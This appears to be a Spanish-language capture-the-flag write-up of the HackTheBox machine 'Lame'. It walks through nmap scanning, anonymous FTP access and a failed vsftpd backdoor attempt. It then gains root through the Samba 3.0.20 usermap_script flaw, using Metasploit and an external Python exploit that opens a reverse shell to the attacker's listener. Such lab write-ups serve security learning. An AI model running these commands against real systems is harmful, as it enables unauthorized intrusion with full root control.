






LAME
HackTheBox | Dificultad: Fácil
Introducción
LAME es una máquina Linux de HackTheBox de dificultad fácil. Comenzaremos realizando un reconocimiento de los servicios expuestos para identificar posibles vectores de entrada.
Durante la enumeración encontramos diferentes servicios, entre ellos FTP y SMB. El servicio FTP utiliza una versión vulnerable de vsftpd, por lo que inicialmente investigaremos esta vía.
Sin embargo, aunque la versión de vsftpd es vulnerable, el exploit no consigue proporcionarnos acceso a la máquina, por lo que descartamos esta vía y continuamos con la enumeración del servicio SMB.
Finalmente identificamos una versión vulnerable de Samba y conseguimos explotarla utilizando Metasploit y un exploit externo, obteniendo directamente una shell como ROOT.
1. Reconocimiento
Comenzamos realizando un escaneo completo de puertos para identificar todos los servicios expuestos en la máquina.
nmap -sS --min-rate 5000 -vvv -n -Pn 10.129.101.170 -oG allportsEl escaneo nos permite identificar los siguientes puertos abiertos:
- 21/tcp → FTP
- 22/tcp → SSH
- 139/tcp → NetBIOS / SMB
- 445/tcp → SMB
- 3632/tcp → distccd

2. Enumeración de servicios
Una vez identificados los puertos abiertos, realizamos un segundo escaneo utilizando scripts de enumeración y detección de versiones.
nmap -p21,22,139,445,3632 -sCV 10.129.101.170 -oN targetedEn esta ocasión obtenemos información más detallada sobre los servicios que se están ejecutando:
- 21/tcp → vsftpd 2.3.4
- 22/tcp → OpenSSH 4.7p1 Debian
- 139/tcp → Samba smbd 3.X - 4.X
- 445/tcp → Samba 3.0.20-Debian
- 3632/tcp → distccd

3. Enumeración de FTP
Comenzamos investigando el servicio FTP expuesto en el puerto 21.
Primero comprobamos si el servidor permite iniciar sesión utilizando el usuario anonymous.
ftp anonymous@10.129.101.170El acceso anónimo está permitido y conseguimos iniciar sesión correctamente en el servidor FTP.

4. Vulnerabilidad en vsftpd 2.3.4
El banner del servicio FTP nos indica que estamos ante vsftpd 2.3.4.
Esta versión es conocida por contener una puerta trasera, por lo que comprobamos si podemos aprovecharla para obtener acceso remoto.
Utilizamos el módulo correspondiente de Metasploit:
use exploit/unix/ftp/vsftpd_234_backdoorConfiguramos el objetivo y ejecutamos el exploit. Aunque Metasploit identifica que la versión parece vulnerable, la explotación no consigue establecer una sesión.

5. Enumeración de SMB
Continuamos con la enumeración del servicio SMB expuesto mediante los puertos 139 y 445.
La enumeración nos permite identificar que el servidor está ejecutando Samba 3.0.20-Debian.
Esta versión resulta especialmente interesante debido a que existe una vulnerabilidad conocida que permite ejecutar comandos de forma remota.

6. Explotación mediante Metasploit
Una vez identificada la versión de Samba, buscamos un exploit compatible utilizando Metasploit.
msfconsoleBuscamos exploits relacionados con Samba 3.0.20:
search Samba 3.0.20Entre los resultados encontramos el módulo:
exploit/multi/samba/usermap_scriptConfiguramos la dirección IP del objetivo y nuestra dirección IP para recibir la conexión:
set RHOSTS 10.129.101.170
set LHOST 10.10.16.102
runAl ejecutar el exploit conseguimos abrir una sesión remota contra la máquina.

7. Explotación mediante exploit externo
Además de utilizar Metasploit, comprobamos la explotación mediante un exploit externo para la misma vulnerabilidad de Samba.
El exploit permite especificar nuestra dirección IP, el puerto de escucha y la dirección IP del objetivo.
python3 smb3.0.20.py -lh 10.10.16.102 -lp 4444 -t 10.129.101.170El exploit genera el payload y lo envía contra el objetivo.

Tras ejecutar el exploit conseguimos recibir una conexión desde la máquina objetivo.

8. Obtención de ROOT
Una vez obtenemos acceso a la máquina, comprobamos el usuario con el que estamos ejecutando la shell.
idEl resultado confirma que el acceso obtenido corresponde directamente al usuario root.
uid=0(root) gid=0(root)
9. Conclusión
LAME es una máquina en la que la enumeración inicial permite identificar varios servicios potencialmente interesantes.
En primer lugar encontramos un servidor FTP ejecutando vsftpd 2.3.4. Aunque esta versión presenta una vulnerabilidad conocida, el exploit probado no consigue proporcionarnos acceso, por lo que descartamos esta vía.
Continuando con la enumeración encontramos el servicio SMB ejecutando Samba 3.0.20-Debian, una versión vulnerable.
Utilizando el módulo usermap_script de Metasploit conseguimos explotar el servicio y obtener acceso remoto.
También comprobamos la explotación utilizando un exploit externo, obteniendo igualmente una shell.
Finalmente comprobamos que el acceso obtenido dispone directamente de privilegios de ROOT, por lo que no es necesario realizar una fase adicional de escalada de privilegios.
LAME completada.